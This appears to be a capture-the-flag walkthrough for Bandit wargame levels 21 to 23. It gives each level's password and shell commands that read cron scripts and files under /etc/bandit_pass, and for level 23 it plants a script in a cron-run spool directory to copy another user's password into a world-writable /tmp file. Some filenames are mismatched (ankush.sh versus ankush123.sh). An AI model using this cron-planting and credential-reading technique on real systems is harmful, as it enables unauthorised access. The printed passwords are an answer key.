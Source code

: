 ### Level21 `gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr`
```shell
cd /etc/cron.d/
ls -la
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
# Following is printed
# #!/bin/bash
# chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
# cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

### Level22 `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`
```shell
cd /etc/cron.d/
ls -la
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
# #!/bin/bash
# myname=$(whoami)
# mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
# echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
# cat /etc/bandit_pass/$myname > /tmp/$mytarget
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
# 8ca319486bfbbc3663ea0fbe81326349
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

### Level23 `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`
```shell
cd /etc/cron.d/
ls -la
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
# Following script is printed:
# #!/bin/bash
# myname=$(whoami)
# cd /var/spool/$myname
# echo "Executing and deleting all scripts in /var/spool/$myname:"
# for i in * .*;
# do
#     if [ "$i" != "." -a "$i" != ".." ];
#     then
# 	echo "Handling $i"
# 	timeout -s 9 60 ./$i
# 	rm -f ./$i
#     fi
# done

# Make a file which is writable by all users.
touch /tmp/ankush-level-24
chmod 777 /tmp/ankush-level-24

cd /var/spool/bandit24
nano ankush.sh

# Put the following script in ankush.sh
cat /etc/bandit_pass/bandit24 > /tmp/ankush-level-24
# Make this file executable for all users
chmod 777 ankush123.sh

# after the cron is executed.
```